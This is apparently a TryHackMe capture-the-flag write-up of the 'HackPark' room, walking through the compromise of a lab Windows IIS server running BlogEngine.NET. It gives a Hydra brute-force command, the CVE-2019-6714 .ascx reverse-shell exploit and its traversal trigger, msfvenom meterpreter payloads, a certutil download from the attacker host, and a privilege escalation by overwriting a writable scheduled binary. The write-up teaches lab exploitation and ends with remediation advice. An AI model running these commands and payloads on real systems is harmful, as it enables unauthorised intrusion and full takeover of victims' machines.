









# HackPark — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.64.142.49 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**HackPark** is a TryHackMe room built around a Windows IIS server running BlogEngine.NET 3.3.6.0. The blog's custom admin login form doesn't flag invalid logins with a distinct HTTP status, so a Hydra brute force matching on response content recovers the admin credentials. Fingerprinting the exact BlogEngine.NET version through the page source and a searchsploit lookup surfaces a public directory traversal / RCE exploit (CVE-2019-6714): a malicious `.ascx` file is attached to a blog post through the admin panel and then triggered through the `theme` query parameter, handing back a raw reverse shell as `iis apppool\blog`. That shell is used to pivot into a full meterpreter session, from which local enumeration finds the "System Scheduler" service running as SYSTEM and periodically executing a world-writable `Message.exe`; overwriting that binary with a second malicious payload escalates straight to Administrator once the scheduled task fires.

**Attack chain:** nmap recon → gobuster → Hydra brute force (admin login) → admin panel access → BlogEngine version fingerprint → searchsploit (CVE-2019-6714) → malicious .ascx upload → theme directory traversal RCE → reverse shell as iis apppool\blog → meterpreter pivot → writable Message.exe (System Scheduler) → Administrator

## 1. Reconnaissance

A full TCP port scan shows a Windows IIS web server and not much else — HTTP on port 80 and RDP on port 3389, with the RDP NTLM banner confirming the hostname:

```
nmap -Pn -sV -sC -vvv -oN scan.txt 10.64.142.49

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 8.5
|_http-title: HackPark
|_http-server-header: Microsoft-IIS/8.5
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: HackPark
|   DNS_Computer_Name: HackPark
|   Product_Version: 6.3.9600
|_  System_Time: 2026-10-28T18:17:58+00:00
```

Port 80 serves the "HackPark" blog, and the RDP banner confirms the target is a standalone Windows host named `HACKPARK`:



A gobuster scan against the web root surfaces the admin login path, redirecting to a custom BlogEngine.NET form:

```
gobuster dir -u http://10.64.142.49/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
contact              (Status: 200) [Size: 9922]
blog                 (Status: 500) [Size: 1208]
content              (Status: 301) [Size: 151] [--> http://10.64.142.49/content/]
admin                (Status: 302) [Size: 172] [--> http://10.64.142.49/Account/login.aspx?ReturnURL=/admin]
scripts              (Status: 301) [Size: 151] [--> http://10.64.142.49/scripts/]
account              (Status: 301) [Size: 151] [--> http://10.64.142.49/account/]
custom               (Status: 301) [Size: 150] [--> http://10.64.142.49/custom/]
...
```

`/admin` redirects to `/Account/login.aspx`, BlogEngine.NET's custom admin login form, which returns HTTP 200 for both valid and invalid credentials — there's no distinct status code to brute force against, so any attack has to match on the response content instead.

## 2. Brute Forcing the Admin Login


Capturing a login attempt in Burp shows the form posts `__VIEWSTATE` and `__EVENTVALIDATION` tokens alongside the credentials, which have to be included on every brute-force request or the server rejects the attempt outright:



With those tokens captured, Hydra brute forces the `admin` account against the login form, matching on the string that appears only on a failed attempt:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.64.142.49 http-post-form "/Account/login.aspx:__VIEWSTATE=GAvrvDV5F%2FmekbZgUeNRJl9h9XZkHuMNh8xyjWnNhIigaV9OSq3y5ntBIANubNi5aAe2BeuoM4A5rfkHPCKoEivooWmB6AMJhj%2FMemcUb6IL4%2BKZ7FJHbKP6lJGOn5FhBOXxPpUlGYArnD3%2BBP7%2F2P%2BBOB6jiPqf9IkHwTlHhT2a2hcF6nhS&__EVENTVALIDATION=PB08rYx683%2B2B%2BBYnxPB3gXpmhuS9lwq6WyOoFhZk74mYrL6EGApKQhyd1Kvbt%2BBI8Bx9r4cpsNwgq7jB%2BFWOqAL1U1YrYIWhRWWkz9bUrqzyUCDuD%2BBFDKZkV%2BBfAkvNSC69WRNSDVjpTVXNn7aq3lCm0%2Bp%2BBZUTZRVXjqHJE6m43LeZrnLuIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Invalid"

[80][http-post-form] host: 10.64.142.49   login: admin   password: 1qaz2wsx
```

The admin credentials come back as `admin:1qaz2wsx`, which log straight into the BlogEngine.NET admin panel:



## 3. Identifying the Exploit (CVE-2019-6714)

Viewing the page source confirms the exact BlogEngine.NET build running on the target, visible in a footer comment:

```
<!--- BlogEngine 3.3.6.0 -->
```

A searchsploit lookup against that version turns up several public exploits:

```
searchsploit BlogEngine 3.3.6

----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                  |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                               | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                           | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution            | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                        | aspx/webapps/47014.py
----------------------------------------------------------------------------------------------- ---------------------------------
```

`46353.cs` (CVE-2019-6714) matches the vulnerable code path in `/Custom/Controls/PostList.ascx.cs`: a malicious `.ascx` file attached through the post editor and then loaded through the `theme` parameter gets executed by the application. The exploit is pulled locally:

```
searchsploit -m aspx/webapps/46353.cs
```

It's renamed to `PostView.ascx`, the filename the traversal exploit requires:

```
mv 46353.cs PostView.ascx
```

The reverse shell embedded in `PostView.ascx` is edited to point at the attacker's IP and port, `192.168.131.193:4444`.

## 4. Malicious Upload & Directory Traversal RCE

BlogEngine.NET's post editor accepts file attachments, which are saved to `/App_Data/files`. The weaponized `PostView.ascx` is attached to a new post and published:



With the file sitting in `/App_Data/files`, the `theme` traversal lets the application load and execute it directly:



Requesting `http://10.64.142.49/?theme=../../App_Data/files` with a listener running catches a shell:



```
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```



## 5. Privilege Escalation — System Scheduler / Message.exe

A meterpreter payload is generated to pivot from the raw shell into a full meterpreter session:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.131.193 LPORT=5555 -f exe -o virus.exe
```

`mkdir TEMP` creates a working directory on the target and moves into it, so the payload downloaded next lands there. A Python web server serves the payload from the attacker host, and the raw shell pulls it down with `certutil`:

```
mkdir TEMP
```

```
python3 -m http.server
```

```
certutil -urlcache -split -f http://192.168.131.193:8000/virus.exe virus.exe
```

The downloaded payload is confirmed and executed:

```
c:\TEMP>dir
 Directory of c:\TEMP
10/28/2026  04:21 PM    <DIR>          .
10/28/2026  04:21 PM    <DIR>          ..
10/28/2026  04:21 PM    <DIR>          Microsoft
10/28/2026  04:13 PM             7,168 virus.exe
               1 File(s)          7,168 bytes

c:\TEMP>virus.exe
```

A multi/handler is set up for `windows/meterpreter/reverse_tcp` on `192.168.131.193:5555`, and running `virus.exe` catches the callback, confirmed as `iis apppool\blog`:

```
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.131.193:5555
[*] Sending stage (203455 bytes) to 10.64.142.49
[*] Meterpreter session 1 opened (192.168.131.193:5555 -> 10.64.142.49:49776) at 2026-10-28 20:48:16 -0400

meterpreter > getuid
Server username: IIS APPPOOL\Blog
```

From this meterpreter session, dropping into a native shell is enough to enumerate running processes and installed software, which reveals Splinterware's "System Scheduler", installed under `C:\Program Files (x86)\SystemScheduler` and running as SYSTEM:

```
meterpreter > shell
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

It's configured with a scheduled task ("The time has come") that periodically launches `Message.exe`. Navigating to its install directory, that binary's permissions are worth a closer look:

```
c:\Program Files (x86)\SystemScheduler>icacls Message.exe
Message.exe Everyone:(M)
             BUILTIN\Users:(RX)
             NT AUTHORITY\SYSTEM:(F)
             BUILTIN\Administrators:(F)
```

`Everyone:(M)` means any authenticated user — including `iis apppool\blog` — can overwrite `Message.exe`, and System Scheduler will run whatever is sitting at that path the next time the task fires. A second Windows meterpreter payload is generated to replace it:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.131.193 LPORT=6666 -f exe -o Message.exe
```

From the meterpreter session opened on port 5555, the payload is uploaded straight over the original binary:

```
meterpreter > upload /home/kaskamilla/TryHackme/Message.exe Message.exe
[*] Uploading  : Message.exe -> Message.exe
[*] Uploaded 72.00 KiB of 72.00 KiB (100.0%): Message.exe -> Message.exe
[*] Completed  : Message.exe -> Message.exe
```

With a handler listening on port 6666, the scheduled task fires `Message.exe` on its own and a new session opens:

```
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.131.193:6666
[*] Sending stage (175686 bytes) to 10.64.142.49
[*] Meterpreter session 1 opened (192.168.131.193:6666 -> 10.64.142.49:49812)
```

The new session lands as Administrator:

```
meterpreter > getuid

Server username: HACKPARK\Administrator
```

`systeminfo` confirms the full picture of the box — an unpatched Windows Server 2012 R2 host on AWS:

```
C:\Users\Administrator\Desktop>systeminfo

Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Manufacturer:       Xen
System Model:              HVM domU
Domain:                    WORKGROUP
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           [03]: KB2937220
                           [04]: KB2938772
                           [05]: KB2939471
                           [06]: KB2949621
                           [07]: KB3035131
                           [08]: KB3060716
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 IP address(es)
                                 [01]: 10.64.142.49
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Weak admin credentials on the BlogEngine.NET login form, with no account lockout | Enforce a strong password policy and lock out accounts after repeated failed login attempts |
| BlogEngine.NET 3.3.6.0 vulnerable to directory traversal RCE via the `theme` parameter (CVE-2019-6714) | Upgrade to a patched BlogEngine.NET version and restrict uploadable file types in the post editor |
| `Message.exe` (System Scheduler) writable by the `Everyone` group while the service runs as SYSTEM | Restrict file permissions on service/scheduler binaries to the service account and Administrators only |
